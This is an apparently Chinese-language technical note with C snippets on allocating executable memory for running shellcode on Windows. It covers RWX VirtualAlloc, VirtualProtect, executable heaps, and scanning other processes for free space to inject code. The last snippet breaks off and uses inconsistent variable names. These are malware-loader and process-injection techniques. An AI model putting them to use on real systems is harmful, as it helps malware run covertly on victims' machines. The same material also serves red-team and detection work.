 运行shellcode需要一块可读可执行的内存空间

##### 一 VirtualAlloc直接分配

```c
VirtualAlloc(NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

##### 二 VirtualProtect

创建数组变量后VirtualProtect改变内存空间属性

```c
int flOldProtect[11];
VirtualProtect(Memory, sizeof(buf), PAGE_EXECUTE_READ, flOldProtect);
```

##### 三 分配可执行权限的堆

```c
HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(buf), 0);
char* heap_buf = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(buf));
```

标准c库malloc函数分配的内存块使用VirtualProtect赋予可执行权限后依旧不可以执行代码

##### 四 在另一进程寻找空闲空间

通过for循环编译tpid获取当前所有进程来注入shellcode

```
//获取某进程程句柄，完全访问权限
HANDLE proc = OpenProcess(PROCESS_ALL_ACCESS,FALSE,tpid);

//page_size为页大小0x1000，alloc_gran为最小分配粒度0x10000
SYSTEM_INFO sysinfo;
GetSystemInfo(&sysinfo);

SIZE_T page_size = sysinfo.dwPageSize;
SIZE_T alloc_gran = sysinfo.dwAllocationGranularity;
PBYTE beginaddr = (PBYTE)sysinfo.lpMinimumApplicationAddress;
PBYTE endaddr = (PBYTE)sysinfo.lpMaximumApplicationAddress;


// 获取合适的基址，通过VirtualQueryEx获取该进程可用的shellcode大小的空闲空间

int cneed_alloc = szRead / alloc_gran + 1;
int lchunk_need_alloc = alloc_gran / page_size;

MEMORY_BASIC_INFORMATION mbi;

PBYTE base = beginaddr;
for (base; base < endaddr; base += page_size)
{

    VirtualQueryEx(hProc, base, &mbi, sizeof(MEMORY_BASIC_INFORMATION));

    if (MEM_FREE == mbi.State) {

        uint64_t i;
        for (i = 0; i < cneed_alloc * lchunk_need_alloc; ++i) {
            LPVOID currentBase = (LPVOID)((DWORD_PTR)base + (i * page_size));

            VirtualQueryEx(hProc, currentBase, &mbi, sizeof(MEMORY_BASIC_INFORMATION));

            if (MEM_FREE != mbi.State)
                break;
        }

```